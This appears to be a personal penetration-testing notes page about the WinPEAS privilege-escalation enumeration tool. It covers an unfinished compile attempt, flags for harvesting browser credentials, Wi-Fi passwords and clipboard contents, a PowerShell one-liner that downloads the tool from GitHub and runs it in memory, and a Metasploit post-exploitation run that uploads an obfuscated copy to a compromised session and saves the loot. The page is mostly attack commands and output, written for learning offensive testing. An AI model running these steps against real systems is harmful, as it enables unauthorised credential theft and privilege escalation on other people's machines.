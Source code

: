 # WinPEAS

## 01 - Compile

- **Install a targeting pack**

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

- **Compile WinPEAS

TODO: figure it out how to manually compile WinPEAS in C#

```
C:\> git clone https://github.com/carlospolop/PEASS-ng.git

C:\> cd PEASS-ng\winPEAS\winPEASexe\winPEAS

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> copy Program.cs Program.cs.bak

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet new console --force

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet add package Microsoft.VisualStudio.UnitTesting --version 11.0.50727.1

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> del Program.cs; move Program.cs.bak Program.cs
```

_**I'm still having an error**_

`C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1`

## 02 - Manual

### 2.1 - Usage

- **It will display all of the results once executed**

`C:\> winPEASx64.exe`

- **Runs the enumeration tool but does not display the banner**

`C:\> winPEASx64.exe quiet`

- **Look for sensitive files**

`C:\> winPEASx64.exe fileinfo`

- **Enumerate web browser databases credentials**

`C:\> winPEASx64.exe browserinfo`

- **Find credentials on the Windows machine** **and check for** [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/04 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual|AlwaysInstallElevated]]

`C:\> winPEASx64.exe windowscreds`

- **Obtaining Wi-Fi passwords, credential manager and clipboard information using the command prompt commands**

`C:\> winPEASx64.exe quiet cmd`

- **Display the results that is related only to the user information**

`C:\> winPEASx64.exe userinfo`

- **Enumerate installed programs that we might look into**

`C:\> winPEASx64.exe applicationsinfo`

- **Enumerate to discover any insecure services that we can hijack**

`C:\> winPEASx64.exe servicesinfo`

- **Provide information related to the current running processes**

`C:\> winPEASx64.exe processinfo`

- **Discover networking information**

`C:\> winPEASx64.exe networkinfo`

- **Enumerating the whole system and find kernel vulnerabilities**

`C:\> winPEASx64.exe systeminfo`

- **Enumerate the system quickly yet it's gonna be noisy and might be a risk to OPSEC that does absorb some resources**

`C:\> winPEASx64.exe quiet searchfast`

- **Search everything on the system**

`C:\> winPEASx64.exe quiet searchall`

### 2.2 - Download and Execute

```powershell
$url = 'https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx64.exe'

$wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## 03 - Metasploit

```
$ sudo cp peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/

$ sudo wget -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb

msf > reload_all

msf > use post/multi/gather/peass

msf post(multi/gather/peass) > options

Module options (post/multi/gather/peass):

   Name        Current Setting                              Required  Description
   ----        ---------------                              --------  -----------
   PARAMETERS                                               no        Parameters to pass to the script
   PASSWORD    w2ogatdfgsh1mcathikl7j39alk715q7             no        Password to encrypt and obfuscate the script (randomly generated). The length
                                                                      must be 32B. If no password is set, only base64 will be used.
   PEASS_URL   https://github.com/carlospolop/PEASS-ng/rel  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Lin
               eases/latest/download/winPEASany_ofs.exe               peas: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas
                                                                      .sh
   SESSION                                                  yes       The session to run this module on
   SRVHOST                                                  no        Set your metasploit instance IP if you want to download the PEASS script from
                                                                      here via http(s) instead of uploading it.
   SRVPORT     443                                          no        Port to download the PEASS script from using http(s) (only used if SRVHOST)
   SSL         true                                         no        Indicate if you want to communicate with https (only used if SRVHOST)
   SSLCert                                                  no        Path to a custom SSL certificate (default is randomly generated)
   TEMP_DIR                                                 no        Path to upload the obfuscated PEASS script inside the compromised machine. By
                                                                      default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp
                                                                      " in Unix.
   TIMEOUT     900                                          no        Timeout of the execution of the PEASS script (15min by default)
   URIPATH     /u6xm.txt                                    no        URI path to download the script from there (only used if SRVHOST)

msf post(multi/gather/peass) > advanced

Module advanced options (post/multi/gather/peass):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   ListenerBindAddress                   no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                      no        The port to bind to if different from SRVPORT
   ListenerComm                          no        The specific communication channel to use for this service
   SSLCipher                             no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression       false            no        Enable SSL/TLS-level compression
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Aut
                                                   o, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   SendRobots           false            no        Return a robots.txt file if asked for one
   URIHOST                               no        Host to use in URI (useful for tunnels)
   URIPORT                               no        Port to use in URI (useful for tunnels)
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf post(multi/gather/peass) > set peass_url http://<IP>:<PORT>/winPEASx64.exe

msf post(multi/gather/peass) > set session <session_id>

msf post(multi/gather/peass) > run

[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to C:\Windows\System32\spool\drivers\color\1ecke...
[+] Uploaded
[*] Running PEASS...
..[snip]..

[+] PEASS output saved to: /root/.msf4/loot/20220515165546_default_10.0.2.15_PEASS_757580.txt
[*] Post module execution completed
```

---
## References

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- [WinPEAS Metasploit Module](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit)